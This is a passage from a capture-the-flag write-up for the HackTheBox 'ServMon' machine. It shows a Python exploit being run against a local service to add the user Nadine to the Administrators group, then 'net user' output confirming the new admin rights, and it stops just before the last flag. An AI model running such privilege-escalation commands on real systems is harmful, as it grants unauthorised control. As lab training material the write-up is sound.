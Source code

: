 So a workaround could be using the exploit to add Nadine to the administrator's group, and then log back in with admin privileges.

We can do that with:
```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ python exploit.py "net localgroup Administrators /add Nadine" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT
```

Lets SSH back in as user Nadine and check our permissions:

```
PS C:\Users\Administrator\Desktop> net user nadine
User name                    Nadine
Full Name                    Nadine
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/28/2022 6:33:50 PM
Password expires             Never
Password changeable          2/28/2022 6:33:50 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/8/2024 11:01:27 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

Nice, we can see we are now part of the Administrators group.

Lets grab the last flag:
